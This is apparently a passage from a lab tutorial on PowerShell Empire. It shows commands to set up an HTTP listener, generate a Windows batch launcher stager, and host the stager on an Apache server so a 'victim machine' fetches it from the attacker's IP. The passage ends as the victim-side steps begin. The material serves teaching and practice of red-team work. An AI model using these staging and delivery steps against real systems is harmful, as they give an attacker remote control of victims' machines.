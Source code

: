     ```bash
    #2. Terminal 2
    set http Port 4321
    ```
    
- After the port is set, go ahead and write `execute` in the terminal window

```bash
#2. Terminal 2
execute
```

- Use the `usestager` command followed by `launcher_bat` to select the Windows Batch Script stager.
- For example,

```bash
usestager windows/launcher_bat
```

- Use the `listeners` command to view the available listener. It will display a list of existing listeners.
- Set the listener as an HTTP listener :
    - Use the `set` command followed by the listener name and the desired type, which in this case is `http`
    
    ```bash
    set listner http
    ```
    
- Once the listener is set, go ahead and enter execute and hit “enter”.

Once done, open another terminal (#3), 

- Type in the command, `sudo systemctl start apache2.service` ,
- `sudo systemctl start apache2.service` is used to start the Apache web server service in systems that use systemd as the init system, such as Ubuntu and other Linux distributions.

Back again in terminal 2(#2),

- Use the command,

```bash
sudo mv /var/lib/powershell-empire/client/generated-stagers/launcher.bat /var/www/html/launcher.bat
```

- to move the **`launcher.bat`** file from the **`/var/lib/powershell-empire/client/generated-stagers/`** directory to the **`/var/www/html/`** directory in Linux systems.
- Here's a breakdown of what this command does:
    - **`sudo`**: Executes the following command with administrative privileges.
    - **`mv`**: The command used to move or rename files and directories.
    - **`/var/lib/powershell-empire/client/generated-stagers/launcher.bat`**: The source file path and name. This is the current location of the **`launcher.bat`** file.
    - **`/var/www/html/launcher.bat`**: The destination path and name. This is the desired location where you want to move the **`launcher.bat`** file.

### Operations in Victim Machine

- On the victim machine, launch a browser and enter the IP address of the attacker machine followed by **`launcher.bat`**:
